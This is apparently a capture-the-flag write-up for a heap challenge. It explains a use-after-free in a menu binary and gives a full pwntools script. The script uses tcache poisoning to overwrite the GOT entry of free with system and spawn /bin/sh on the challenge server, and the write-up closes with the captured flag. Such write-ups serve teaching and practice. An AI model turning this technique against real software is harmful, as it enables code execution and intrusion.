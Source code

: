# cache

## Challenge

We're given a libc and a binary.

Starting the challenge, we get the following menu:

```
MENU
1: Make new admin
2: Make new user
3: Print admin info
4: Edit Student Name
5: Print Student Name
6: Delete admin
7: Delete user

Choice:
```

There appears to be a win function that will execute `cat flag.txt`:

```asm
[0x00400720]> pdf @ sym.getFlag 
            ; DATA XREF from main @ 0x40097a
┌ 43: sym.getFlag ();
│           0x0040084a      55             push rbp
│           0x0040084b      4889e5         mov rbp, rsp
│           0x0040084e      b900000000     mov ecx, 0
│           0x00400853      488d15ee0200.  lea rdx, str.flag.txt       ; 0x400b48 ; "flag.txt"
│           0x0040085a      488d35f00200.  lea rsi, [0x00400b51]       ; "cat"
│           0x00400861      488d3de90200.  lea rdi, [0x00400b51]       ; "cat"
│           0x00400868      b800000000     mov eax, 0
│           0x0040086d      e89efeffff     call sym.imp.execlp
│           0x00400872      90             nop
│           0x00400873      5d             pop rbp
└           0x00400874      c3             ret
```

## Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./'
```

## Solution

Let's look at the "Delete admin" and "Delete user" branches:

Delete admin:

```c
if (var_1ch == 6) {
    sym.imp.free(ptr);
}
```

Delete user:

```c
if (var_1ch == 7) {
    sym.imp.free(buf);
}
```

We can see that the pointers not cleared, resulting in dangling pointers.
There is also no check for whether the pointers are valid before they are read or written to.
This gives us a UAF vulnerability.

### Read fake flag

The admin struct contains 2 function pointers:

```c
if (var_1ch != 1) break;
ptr = (void *)sym.imp.malloc(0x10);
*(code **)((int64_t)ptr + 8) = sym.admin_info;
*(code **)ptr = sym.getFlag;
```

One to `admin_info` and one to `getFlag`.

We can only call `sym.admin_info` normally, using the "Print admin info" option.
However, note that the user and admin structs are the same size.
If we free the admin then allocate a user, it will occupy the same space on the heap.
Now both pointers share the same buffer.

When we are prompted for a name, or using the "Edit Student Name" option, we can write whatever we
want to the admin function pointers.

If we write the `getFlag` function pointer to `*(ptr + 8)` and use "Print admin info", the program
executes `cat flag.txt` and we get the following response:

```py
-> % ./exploit.py
[*] '/home/debian/challenges/cache/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./'
[+] Opening connection to 34.159.7.96 on port 32552: Done
[*] Switching to interactive mode
Try Harder!!! https://www.youtube.com/watch?v=dQw4w9WgXcQ
[*] Got EOF while reading in interactive
```

So `flag.txt` contains a fake flag.
To find the real flag, we need to be able to execute arbitrary commands, so let's spawn a shell.

### Spawn shell and read real flag

The challenge uses libc 2.27, which is shortly after tcache was introduced.
Tcache bins are short singly-linked lists of freed chunks of equal sizes and there are no checks
when unlinking items.

By allocating a user and admin, then freeing both, the first one to be freed will have a pointer
to the second.
By freeing the user first, we will have a pointer that we can edit using the "Edit Student Name"
option.
We can make this point at any address we want to write to, such as the GOT entry for `free`.
By allocating 2 chunks now, the second will be placed at the address we chose.

Before we make these allocations, however, we need a "/bin/sh" string at one of our pointers to
make a GOT overwrite useful.
We can do so by allocating then freeing an admin chunk, then allocating a user chunk.
This will cause both pointers to point at the same heap struct.
We can use the user methods now to write "/bin/sh" at the pointer.

Now, without freeing the previous chunk, we allocate another chunk which will be placed at the GOT
entry of `free`.
We can use this and the "Print Student Name" address to leak the address of `free` and calculate
the libc address.
Then we use the "Edit Student Name" option to overwrite the GOT entry to `system`.
Lastly, we free the admin chunk to execute `system("/bin/sh")`.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 34.159.129.6 --port 32722 vuln
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('vuln')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '34.159.7.96'
port = int(args.PORT or 32552)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# RUNPATH:  b'./'

io = start()

# create and free 2 chunks to get a forward pointer
io.sendlineafter(b"Choice: ", b"1")
io.sendlineafter(b"Choice: ", b"2")
io.sendafter(b"What is your name: ", b"a")
io.sendlineafter(b"Choice: ", b"6")
io.sendlineafter(b"Choice: ", b"7")

# change forward pointer to overwrite target
io.sendlineafter(b"Choice: ", b"4")
io.sendafter(b"What is your name: ", pack(exe.got['free']))

# overlap admin and user chunks and write "/bin/sh"
io.sendlineafter(b"Choice: ", b"1")
io.sendlineafter(b"Choice: ", b"6")
io.sendlineafter(b"Choice: ", b"2")
io.sendafter(b"What is your name: ", b"/bin/sh\x00")

# allocate chunk in GOT
io.sendlineafter(b"Choice: ", b"2")
io.sendafter(b"What is your name: ", b"a")

# print libc address
io.sendlineafter(b"Choice: ", b"5")
io.recvuntil(b"Students name is ")
leak = io.recvuntil(b"\n", drop=True).ljust(8, b'\x00')
libc.address = (unpack(leak) & 0xffffffffffffff00) - (libc.sym['free'] & 0xffffffffffffff00)
io.success("libc : " + hex(libc.address))

# change free GOT entry to system
io.sendlineafter(b"Choice: ", b"4")
io.sendafter(b"What is your name: ", pack(libc.sym['system']))

# call system("/bin/sh")
io.sendlineafter(b"Choice: ", b"6")

io.interactive()
```

## Flag

```
CTF{ab7bdaa3e5ed17ed326fef624a2d95d6ea62caa3dba6d1e5493936c362eed40e}
```
